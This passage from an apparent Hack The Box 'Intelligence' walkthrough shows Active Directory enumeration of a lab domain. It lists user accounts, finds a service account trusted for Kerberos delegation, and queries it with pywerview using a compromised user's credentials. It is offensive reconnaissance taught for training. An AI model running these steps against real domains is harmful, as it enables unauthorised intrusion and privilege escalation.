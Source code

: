 ```sh
        [+] Reset Account Lockout Counter: 0:00:00
        [+] Account Lockout Threshold: 0
        [+] Forced Log off Time: Not Set

    +------------------------+
    | Users Infos            |
    +------------------------+
    
Account: INTELLIGENCE\Ted.Graves        Name: Ted Graves        Desc: (null)
Account: INTELLIGENCE\Laura.Lee         Name: Laura Lee Desc:   Desc: (null)
Account: INTELLIGENCE\Jason.Patterson   Name: Jason Patterson   Desc: (null)
Account: INTELLIGENCE\Jeremy.Mora       Name: Jeremy Mora       Desc: (null)
Account: INTELLIGENCE\James.Curbow      Name: James Curbow      Desc: (null)
<SNIP>
```

## Constrained Delegation

I've dumped everything we have access to from AD, so the output goes on for a long time. This is part that we are interested in:

```sh
┌──(root💀kali)-[~/htb/intelligence]
└─# grep "DELEGATION" *.grep 
domain_computers.grep:svc_int   svc_int$  svc_int.intelligence.htb  10/08/21 04:49:52   WORKSTATION_ACCOUNT, TRUSTED_TO_AUTH_FOR_DELEGATION
domain_computers.grep:DC        DC$       dc.intelligence.htb       10/08/21 03:55:22   SERVER_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION
```

## Pywerview

More searching found [this](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation) helpful article. It mentions about computer objects trusted for delegation, so I grabbed more detailed info using the Python version of PowerView from [here](https://github.com/the-useless-one/pywerview):

```sh
┌──(root💀kali)-[~/htb/intelligence]
└─# git clone https://github.com/the-useless-one/pywerview.git
Cloning into 'pywerview'...
remote: Enumerating objects: 1731, done.
remote: Counting objects: 100% (571/571), done.
remote: Compressing objects: 100% (323/323), done.
remote: Total 1731 (delta 425), reused 385 (delta 247), pack-reused 1160
Receiving objects: 100% (1731/1731), 383.68 KiB | 1.76 MiB/s, done.
Resolving deltas: 100% (1235/1235), done.

┌──(root💀kali)-[~/htb/intelligence/pywerview]
└─# python3 ./pywerview.py get-netcomputer -u Ted.Graves -p <HIDDEN> -w intelligence.htb --computername svc_int.intelligence.htb -t 10.10.10.248 --full-data
```

